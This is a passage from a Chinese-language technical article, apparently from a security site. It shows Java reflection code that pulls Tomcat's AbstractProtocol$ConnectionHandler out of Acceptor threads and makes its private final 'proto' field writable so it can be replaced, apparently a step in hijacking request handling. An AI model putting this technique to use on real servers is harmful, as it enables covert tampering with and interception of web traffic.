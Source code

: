 很明显这个 getProtocol() 方法是获得 AbstractProtocol$ConnectionHandler 对象中的 this.proto。假如我们可以拿到 AbstractProtocol$ConnectionHandler 对象，然后替换掉对象里面的字段 proto 不就好了吗？看起来有点暴力，但是经过实验证明这是可行的。

[![](assets/1701606835-fbd11075ef700d7c1ced0652506a2e90.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231101162918-c01cfab6-7890-1.png)

### 获取 AbstractProtocol$ConnectionHandler 对象

获取到 AbstractProtocol$ConnectionHandler 对象应该不是问题，线程中就可以拿到 AbstractProtocol$ConnectionHandler 对象了。

```plain
// 线程中获取 Handler 对象
public Object getTheHandler() {
    // 获取当前线程的所有线程
    Thread[] threads = (Thread[]) getField(Thread.currentThread().getThreadGroup(), "threads");
    for (Thread thread : threads) {
        try {
            // 需要获取线程的特征包含 Acceptor
            if (thread.getName().contains("Acceptor") && thread.getName().contains("http-nio")) {
                Object handler  = getField(getField(getField(thread, "target"),"this$0"),"handler");
                return handler;
            }
        } catch (Exception e) {
            continue;
        }
    }
    return new Object();
}
```

### 字段 proto 是否可以被修改

**现在的问题是**，字段 proto 是否可以被修改。

```plain
private final AbstractProtocol<S> proto;
```

虽然是 private final，还是可以使用反射进行修改的。

```plain
// 使得 private final 字段能够被反射设置
public static void makeSettable(Field f) {
    try {
        Field modifiersField = Field.class.getDeclaredField("modifiers");
        modifiersField.setAccessible(true);
        modifiersField.setInt(f, f.getModifiers() & ~Modifier.FINAL);
        f.setAccessible(true);
    } catch (Exception e) {
        throw new RuntimeException(e);
    }
}
```
